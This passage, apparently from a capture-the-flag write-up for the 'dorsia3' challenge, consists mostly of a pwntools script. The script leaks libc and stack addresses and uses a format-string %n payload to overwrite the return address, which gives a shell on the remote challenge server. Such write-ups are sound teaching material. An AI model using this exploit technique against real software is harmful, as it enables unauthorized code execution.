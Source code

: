 Using this, I split the `libc` and `/bin/sh` addresses in two halves and added/subtracted the extra characters that were getting printed. Here is the final script which gives a shell on the remote server.

```python
from pwn import *

def get_halves(num):
	nhex = hex(num)[2:]
	first = int(nhex[0:4], 16)
	second = int(nhex[4:], 16)

	return first, second

# space between string beginning and return pointer
diff = 113
# system offset
system_offset = 0x3d200

p = remote('dorsia3.wpictf.xyz', 31337)

lin = p.recv().decode().strip().split('0x')
# stack address
local = int(lin[1], 16)
# libc address
system = int(lin[2], 16) + 288

libc_base = system - system_offset
jump = local + diff

binsh_offset = 0x17e0cf
binsh = libc_base + binsh_offset

first, second = get_halves(system)
b, h = get_halves(binsh)

payload = b'1'
payload += p32(jump)
payload += p32(jump+2)
payload += p32(jump+8)
payload += p32(jump+10)
payload += b'%' + bytes(str(second-17), encoding='utf-8') + b'x'
payload += b'%7$n'
payload += b'%' + bytes(str(first - second), encoding='utf-8') + b'x'
payload += b'%8$n'
payload += b'%' + bytes(str(0x10000 + h - first), encoding='utf-8') + b'x'
payload += b'%9$n'
payload += b'%' + bytes(str(b - h), encoding='utf-8') + b'x'
payload += b'%10$n'

p.sendline(payload)
p.interactive()
```
